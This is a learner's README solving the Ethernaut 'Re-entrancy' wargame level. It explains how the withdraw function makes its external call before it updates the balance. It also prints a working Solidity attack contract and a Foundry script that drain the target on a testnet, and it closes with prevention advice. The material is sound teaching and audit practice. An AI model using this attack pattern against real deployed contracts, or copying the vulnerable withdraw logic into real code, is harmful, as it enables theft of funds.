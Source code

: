 # Ethernaut Level: Re-entrancy - Smart Contract Auditing Journey

## Introduction
Hello! In this repository, I've solved the **Re-entrancy** level as part of my Ethernaut challenges. I'm learning smart contract auditing by solving one level per day, and this folder (`levels/reentrancy/`) contains everything related to it.

**Goal:** Drain the contract's balance to zero by exploiting the withdrawal function.  
**Tools:** Foundry (for scripting and testing), Sepolia testnet.  
**Solved Date:** October 24, 2025 (Day 11).  
**Success:** Verified on the Ethernaut site!

## Contract Overview
This contract allows donations and withdrawals with SafeMath for arithmetic safety, but the `withdraw` function performs an external call before updating the balance, enabling re-entrancy attacks.

**Key Code Snippet (from src/Re-entrancy/Reentrancy.sol):**
```solidity
contract Reentrance {
    using SafeMath for uint256;

    mapping(address => uint256) public balances;

    function donate(address _to) public payable {
        balances[_to] = balances[_to].add(msg.value);
    }

    function withdraw(uint256 _amount) public {
        if (balances[msg.sender] >= _amount) {
            (bool result,) = msg.sender.call{value: _amount}("");  // Vulnerable: External call before update!
            if (result) {
                _amount;
            }
            balances[msg.sender] -= _amount;  // Update after call
        }
    }

    receive() external payable {}
}
```

## Vulnerability Analysis
**Main Issue: Re-entrancy in Withdraw (External Call Before State Update)**  
- The `withdraw` function sends ETH via `msg.sender.call{value: _amount}` before subtracting from `balances[msg.sender]`, violating the Checks-Effects-Interactions (CEI) pattern. A malicious contract can re-enter `withdraw` in its `receive()` during the call, repeating the withdrawal while the balance remains unchanged.  
- **Security Impact:** Infinite ETH drainage, leading to total fund loss. This is the classic DAO hack vulnerability.  
- **Audit Tip:** Always update state before external calls. Use Slither to detect (`slither . --detect reentrancy`).

**Example:** Donate 0.001 ETH, withdraw 0.001 ETH—call triggers receive(), which re-withdraws before balance update, looping until drained.

## Solution Steps
The attack: Deploy an "Attack" contract that donates ETH, then calls `withdraw` to trigger re-entrancy in `receive()`, draining the balance.

1. **Setup:** Create Foundry project, set target instance address in script.
2. **Run Attack:** `forge script script/ReentranceSolution.s.sol --rpc-url $SEPOLIA_RPC_URL --broadcast`.
3. **Verify:** Contract balance = 0, submit on Ethernaut site.

**Key Attack Code Snippet (from src/Re-entrancy/Attack.sol and script/ReentranceSolution.s.sol):**
```solidity
// Attack Contract (src/Re-entrancy/Attack.sol)
contract Attack {
    Reentrance public reentrancy;
    uint256 public attackAmount;

    constructor(Reentrance _reentrancy) public payable {
        reentrancy = _reentrancy;
        attackAmount = msg.value;
        reentrancy.donate{value: msg.value}(address(this));  // Initial donate
    }

    function attack() external {
        reentrancy.withdraw(attackAmount);  // Start re-entrancy loop
    }

    receive() external payable {
        if (address(reentrancy).balance > 0) {
            reentrancy.withdraw(attackAmount);  // Re-enter and drain
        }
    }
}

// Script (script/ReentranceSolution.s.sol)
contract ReentranceSolution is Script {
    Reentrance public reentrancyInstance = Reentrance(payable(<your_contract_address>)); 

    function run() external {
        vm.startBroadcast(vm.envUint("PRIVATE_KEY"));
        
        console.log("Initial Contract Balance:", address(reentrancyInstance).balance);

        // Attack 
        uint256 attackValue = 0.001 ether;  // Donate amount
        Attack attacker = new Attack{value: attackValue}(reentrancyInstance);
        attacker.attack();

        console.log("Final Contract Balance:", address(reentrancyInstance).balance);  // 0 or drained

        vm.stopBroadcast();
    }
}
```

## Test and Output
- **Local Test:** Run `anvil` and `forge test`—simulates donation, withdrawal loop, and drainage.
- **Testnet Output Example:** Console log: "Initial Contract Balance: 1000000000000000", "Final Contract Balance: 0".

## Key Learnings
- **Auditing Skill:** Scan for external calls before state updates; simulate re-entrancy with Foundry's prank.
- **EVM Concept:** `call{value}` forwards ETH and executes fallback/receive, allowing re-entry.
- **Prevention:** Follow CEI; use OpenZeppelin's ReentrancyGuard with `nonReentrant` modifier.
- **Next Step:** Add gas limit in script for long loops; test with varying donation amounts.

## Installation & Run
1. Install Foundry: `curl -L https://foundry.paradigm.xyz | bash`.
2. `cd levels/reentrancy`.
3. Set `.env`: `PRIVATE_KEY=your_key` and `SEPOLIA_RPC_URL=your_rpc`.
4. Run script: `forge script script/ReentranceSolution.s.sol --rpc-url $SEPOLIA_RPC_URL --broadcast -vvvv`.

If you have questions, comment on the issue or mention me on X (@0xZHD_X)! Next level: Elevator. 🚀

---

**License:** MIT  
**Author:** [0xZHD] - Smart Contract Auditor Learner  
**X:** [Zahedul I Sadik](@0xZHD_X)  
**References:** [Ethernaut Docs](https://ethernaut.openzeppelin.com/)